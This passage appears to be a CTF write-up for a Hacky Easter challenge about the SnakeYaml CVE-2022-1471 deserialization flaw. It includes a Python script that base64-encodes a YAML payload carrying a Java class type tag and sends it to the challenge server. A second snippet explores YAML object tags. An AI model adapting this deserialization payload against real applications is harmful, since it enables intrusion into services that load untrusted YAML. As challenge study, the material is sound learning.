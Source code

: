 ## SnakeYaml

So it's definitely SnakeYaml which had a [recent CVE](https://nvd.nist.gov/vuln/detail/CVE-2022-1471). Their wiki makes for some [fun reading](https://bitbucket.org/snakeyaml/snakeyaml/wiki/CVE-2022-1471), [especially the issue that is linked](https://bitbucket.org/snakeyaml/snakeyaml/issues/561/cve-2022-1471-vulnerability-in) where Andrey asserts quite strongly that developers will only ever load trusted YAML.

Not sure if we need to do [this sort of setup with our own class hosted somewhere?](https://www.websec.ca/publication/Blog/CVE-2022-21404-Another-story-of-developers-fixing-vulnerabilities-unknowingly-because-of-CodeQL), that seems excessive since we don't really need RCE, and we know which classes we can work with.

Here's the script I have so far:

```
t = f"""
!!com.hackyeaster.digitalsnakeart.Flag
image: snakes_at_the_beach
name: &K snek
source: asdf
source: *K
resolution: 256x256
""".strip()


print(t)
query = base64.b64encode(t.encode('utf-8')).decode('utf-8')
print(query)
res = requests.get("http://ch.hackyeaster.com:2307/art?art=" + query).text.split('\n')

for x in res:
    if '<h' in x:
        print(x)
    if '<img' in x:
        digest = hashlib.md5(x.encode('utf-8')).hexdigest()
        if digest == "6bb27636aafe5e67fdc4ce31ff771942":
            print("404 error")
        else:
            print(digest)
```

but it seems to accept any value for the `!!com` bit so I guess I'm not doing that right. Looking at how python does it so I don't have to read java:

```python
class A:
    def __init__(self, a=0):
        self.a = a

class Z(int):
    pass

class B:
    def __init__(self, a):
        self.a = a

import yaml
b = B(A(a=Z(1)))
print(yaml.dump(b))
```
